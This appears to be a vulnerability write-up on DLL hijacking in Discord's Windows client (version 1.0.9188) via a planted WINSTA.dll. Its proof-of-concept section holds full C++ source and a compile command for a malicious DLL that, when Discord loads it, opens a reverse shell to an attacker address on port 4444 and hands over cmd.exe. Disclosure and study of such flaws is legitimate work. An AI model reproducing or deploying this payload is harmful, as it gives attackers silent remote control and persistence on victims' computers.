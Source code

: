 # DLL Hijacking in Discord V1.0.9188 (Windows Client) Leads to Remote Code Execution (RCE)

## Summary

A critical **DLL hijacking vulnerability** exists in Discord version `1.0.9188` (Windows client) that allows an attacker to achieve **Remote Code Execution (RCE)** by placing a malicious DLL (`WINSTA.dll`) in the user-writable Discord installation directory.

This issue is trivially exploitable and poses a significant security risk, especially in environments where Discord is installed for multiple users or auto-launches at system startup.

---

## Vulnerable Path

```
C:\Users\<username>\AppData\Local\Discord\app-1.0.9188\WINSTA.dll
```

- Discord attempts to load `WINSTA.dll` on launch.
- If the DLL is missing, it is searched for in the local directory first.
- Since this folder is user-writable, an attacker can drop a malicious DLL here.

---

## Proof of Concept

A custom `WINSTA.dll` was created to launch a reverse shell on Discord startup. The application loaded the DLL successfully and continued to function as normal — proving the hijack worked and that the injection was silent.

### Reverse Shell Payload (DLL)
The following code executes a reverse shell connecting back to the attacker’s IP (`172.21.58.38:4444`) and spawns a `cmd.exe` process redirected over the socket.

<details>
<summary>Click to view full PoC source</summary>

```cpp
// x86_64-w64-mingw32-g++ -shared -o patchpoc.dll patchpoc.cpp -lws2_32 -static

#include <winsock2.h>  
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#pragma comment(lib, "ws2_32.lib")

DWORD WINAPI ReverseShell(LPVOID lpParam) {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in server;

    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    // Change IP and port
    const char *ip = "172.21.58.38";
    int port = 4444;

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    server.sin_family = AF_INET;
    server.sin_port = htons(port);
    server.sin_addr.s_addr = inet_addr(ip);

    if (WSAConnect(sock, (SOCKADDR*)&server, sizeof(server), NULL, NULL, NULL, NULL) == SOCKET_ERROR) {
        closesocket(sock);
        WSACleanup();
        return 1;
    }

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;

    ZeroMemory(&pi, sizeof(pi));
    CreateProcess(NULL, (LPSTR)"cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    closesocket(sock);
    WSACleanup();
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        CreateThread(NULL, 0, ReverseShell, NULL, 0, NULL);
    }
    return TRUE;
}
```

</details>

---

## Impact

- **Remote Code Execution** without user interaction
- **Persistence** via application launch
- **No elevation required** — works in standard user context
- **Bypass of DLL loading best practices** (no `LOAD_LIBRARY_SEARCH_SYSTEM32`)

---

## Source
[gist.github.com/shellkraft/ac4be6a3953e2889a7bf54aea2db88c2](https://gist.github.com/shellkraft/ac4be6a3953e2889a7bf54aea2db88c2)
